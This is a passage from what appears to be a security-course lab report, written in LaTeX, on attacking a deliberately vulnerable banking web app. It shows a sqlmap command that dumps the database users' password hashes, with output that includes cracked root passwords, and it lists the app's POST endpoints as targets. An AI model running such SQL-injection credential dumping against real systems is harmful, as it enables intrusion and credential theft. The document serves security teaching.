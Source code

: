 As you can see in Listing \ref{listing:dump_table}. you receive a list of the columns of the table. You also get a list of all entries. For this example only the data of the admin were chosen, but you can access every entry.
 \newline
 \newline
A further possibility is to break the authentication of the database by hijacking the password of the database root user.

\begin{lstlisting}[caption=Get password of database root user,label=listing:database_get_password]
	python sqlmap.py -u "192.168.56.101/sc-course/views/transactions/tan_entry.php?transaction_id=14" --users --passwords -D banking_development 
	...
	database management system users [8]:
	[*] ''@'localhost'
	[*] ''@'samurai-wtf'
	[*] 'debian-sys-maint'@'localhost'
	[*] 'phpmyadmin'@'localhost'
	[*] 'root'@'127.0.0.1'
	[*] 'root'@'::1'
	[*] 'root'@'localhost'
	[*] 'root'@'samurai-wtf'
	...
	database management system users password hashes:                                               
	[*]  [1]:
	password hash: NULL
	[*] debian-sys-maint [1]:
	password hash: *3380A3DC27DEAC2CFFE40754FE91863CE3B5E786
	[*] phpmyadmin [1]:
	password hash: *8CE09BF054AFC740BF3C6153310E9A9565E34DE0
	clear-text password: samurai
	[*] root [2]:
	password hash: *7D9A6BEA19329B17998DC4F1130F8E40884A227F
	clear-text password: badass
	password hash: *8CE09BF054AFC740BF3C6153310E9A9565E34DE0
	clear-text password: samurai
	
\end{lstlisting}

With a integrated dictionary-based password cracking tool, you can convert the hashed password to plain text assuming weak passwords (like in our case). Now you can access the adminer web-interface and login as root.

\subsubsection{POST}
\begin{itemize}
	\item http://$<$host-ip$>$/sc-course/controllers/user/login\_process.php (email,password)
	\item http://$<$host-ip$>$/sc-course/controllers/transactions/create\_process.php (transaction[payment][to\_iban],transaction[payment][amount])
	\item http://$<$host-ip$>$/sc-course/controllers/user/registration\_process.php (user[email],user[name],user[password],user[password\_confirmation],user[account\_no],user[employee],user[terms\_and\_conditions])
	\item http://$<$host-ip$>$/sc-course/controllers/user/logout\_process.php (logout)
	
	
\end{itemize}

